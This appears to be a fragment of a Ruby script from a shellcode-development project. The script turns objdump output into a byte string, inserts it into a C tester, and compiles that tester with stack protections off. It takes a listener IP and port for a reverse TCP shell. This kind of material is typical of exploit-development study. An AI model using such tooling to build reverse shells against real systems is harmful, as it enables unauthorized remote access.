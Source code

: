 ```ruby
def generate_shellcode
  objdump = `objdump -d #{@filename}`
  objdump.split("\n").map { |line| line.split("\t")[1] }
    .compact.map(&:split).join('\x').prepend('\x')
end

# Replace shellcode in the shellcode tester program
def replace_shellcode
  replace_content('./shellcode.c') do |c_code|
    c_code.gsub!(/\"\S+\"\;/, "\"#{@shellcode}\"\;")
  end
end

# Compile the shellcode into binary with the help of the shellcode.c program
def compile_binary
  `gcc -fno-stack-protector -m32 -z execstack shellcode.c -o shellcode 2> /dev/null`
end

def parse_args
  @parser = OptionParser.new do |opts|
    opts.banner = "Usage: #{$0} [options]"
    opts.separator ""
    opts.separator "Options:"

    opts.on("--ip", "-i IP_ADDR", "IP of the listener") do |value|
      @ip = value
    end

    opts.on("--port", "-p PORT", "Port number of the listener") do |value|
      @port = value.to_i
    end

    opts.on("--nasm", "-n NASM", "Basename of the nasm code") do |value|
      @filename = value
    end

    opts.on_tail("--help", "-h", "Print options") do |show_help|
      warn opts
      exit(0)
    end
  end
  @parser.parse!
end

if __FILE__ == $PROGRAM_NAME
  run
  puts "Successfully generated \e[32mshellcode\e[0m binary!"
end
```
### Script usage and shellcode testing
![](reverse_tcp_shellcode.gif)

---